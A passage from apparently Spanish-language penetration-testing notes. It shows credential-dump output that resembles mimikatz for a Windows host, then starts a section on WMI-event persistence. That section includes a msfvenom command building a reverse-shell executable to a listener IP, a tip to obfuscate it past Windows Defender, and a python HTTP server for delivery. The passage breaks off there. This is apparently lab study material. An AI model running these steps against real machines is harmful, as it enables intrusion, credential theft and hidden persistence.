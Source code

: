 ```
	credman :	

Authentication Id : 0 ; 39481 (00000000:00009a39)
Session           : UndefinedLogonType from 0
User Name         : (null)
Domain            : (null)
Logon Server      : (null)
Logon Time        : 12/08/2024 00:36:19
SID               : 
	msv :	
	tspkg :	
	wdigest :	
	kerberos :	
	ssp :	
	credman :	

Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : HARIS-PC$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 12/08/2024 00:36:19
SID               : S-1-5-18
	msv :	
	tspkg :	
	wdigest :	
	* Username : HARIS-PC$
	* Domain   : WORKGROUP
	* Password : (null)
	kerberos :	
	* Username : haris-pc$
	* Domain   : WORKGROUP
	* Password : (null)
	ssp :	
	credman :
```
### Windows Persistence with WMI Events

Además de con `eventos Wmi` se podría hacer `persistencia` con G`flags (recibimos una shell cuando se cierra un programa)` o con el `Debugger (recibimos una shell cuando el usuario abre un programa)`. Si usamos `metasploit`, podríamos crear una persistencia mediante la cual cada vez se `inicie` el `equipo` nos `mande` una `consola` a nuestro equipo. El primero paso para crear una `persistencia` eventos `Wmi` es crear un `binario` con `msfvenom` en nuestro equipo, si de alguna forma el `Windows Defender` identificara el `binario` como `malicioso` deberíamos `ofuscarlo`

```
# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.23 LPORT=443 -f exe > persistence.exe
```

Nos creamos un `servidor http` con `python` en el `mismo directorio` que el `.exe`

```
# python -m http.server 80
```
